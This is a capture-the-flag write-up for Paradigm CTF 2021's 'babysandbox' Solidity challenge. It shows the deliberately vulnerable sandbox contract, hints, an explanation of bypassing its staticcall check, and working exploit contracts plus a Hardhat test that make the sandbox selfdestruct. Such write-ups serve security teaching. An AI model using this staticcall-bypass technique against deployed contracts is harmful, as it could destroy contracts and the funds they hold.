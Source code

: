 ```yaml
---
layout: post
title: 'Paradigm CTF 2021: babysandbox'
category: Paradigm CTF 2021
excerpt_separator:  <!--more-->
---
```


### Challenge:
This write-up is for the challenge titled 'babysandbox'.


This challenge is located in the babysandbox/public/ directory. The source code can be found below:

<details>
<summary> BabySandbox.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

contract BabySandbox {
    function run(address code) external payable {
        assembly {
            // if we're calling ourselves, perform the privileged delegatecall
            if eq(caller(), address()) {
                switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
                    case 0 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        revert(0x00, returndatasize())
                    }
                    case 1 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        return(0x00, returndatasize())
                    }
            }
            
            // ensure enough gas
            if lt(gas(), 0xf000) {
                revert(0x00, 0x00)
            }
            
            // load calldata
            calldatacopy(0x00, 0x00, calldatasize())
            
            // run using staticcall
            // if this fails, then the code is malicious because it tried to change state
            if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) {
                revert(0x00, 0x00)
            }
            
            // if we got here, the code wasn't malicious
            // run without staticcall since it's safe
            switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
                case 0 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    // revert(0x00, returndatasize())
                }
                case 1 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    return(0x00, returndatasize())
                }
        }
    }
}
```
<details>
<summary> Setup.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

import "./BabySandbox.sol";

contract Setup {
    BabySandbox public sandbox;
    
    constructor() {
        sandbox = new BabySandbox();
    }
    
    function isSolved() public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(sload(sandbox.slot))
        }
        return size == 0;
    }
}

```
</div>
</details>

</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
There are two key operations within babysandbox that comprise the sandbox. The first, is a staticcall and the second is a regular call. Both calls are made using the existing calldata and therefore make a delegatecall to the contract passed in to the run funtion initially.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
[Illegal Staticcall Operations](https://eips.ethereum.org/EIPS/eip-214#specification)
</div>
</details>

The solution for this level can be found below:

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Putting all of the info from our hints together, we can see that the sandbox is the staticcall operation. It is used as a check to ensure that we do not perform state change operations before the contract goes through and performs an unsafe delegatecall. If we can bypass the staticcall check, then we can make a delegatecall from the context of the sandbox to an arbitrary address. This is useful, because the win condition is for the codesize of the sandbox to be 0. This can be achieved through the `selfdestruct()` function.

Our solution is to simply handle a revert caused by a staticcall in order to return a non-zero value. We can achieve this with a try catch block and a couple of custom contracts: 

</details>

<details>
<summary> Hardhat Challenge:</summary>
<br>
<div markdown="1">
```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] babysandbox', function () {

    before(async function () {
        /** SETUP */
        [deployer] = await ethers.getSigners();

        const Setup = await ethers.getContractFactory('SetupBS', deployer);
        this.setup = await Setup.deploy();

        const BabySandbox = await ethers.getContractFactory('BabySandbox', deployer);
        this.babysandbox = await BabySandbox.attach(await this.setup.sandbox());

    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await this.setup.isSolved()
        ).to.equal(true);
    });
});
```
</div>
</details>

</div>
</details>
<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
import "./SetupBS.sol";
pragma solidity 0.7.0;
contract Receiver {
    Spacer private immutable space = new Spacer();
    fallback() external payable {
        // call that performs an sstore
        // should revert and catch on static call 
        try space.magic_eightball(8) { 
            // if it doesn't revert, then call selfdestruct
            // should run this on a regular call
            selfdestruct(address(0)); 

            } catch {
                //if it reverts, then do nothing
            } 
    }
}

contract BSAttacker {

    Setup public setup;
    constructor(address _setup) {
        setup = Setup(_setup);
    }

    function attack() public {
        setup.sandbox().run(address(new Receiver()));
    }
}

contract Spacer {
    uint256 value = 1;
    function magic_eightball(uint256 _value) external {
        assembly {
            sstore(0, _value)
        }

    }
}

```
</div>
</details>

<details>
<summary> HardHat Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const BSAttacker = await ethers.getContractFactory('BSAttacker', deployer);
        this.bsAttacker = await BSAttacker.deploy(this.setup.address);

        await this.bsAttacker.attack();
    });
```
</div>
</details>


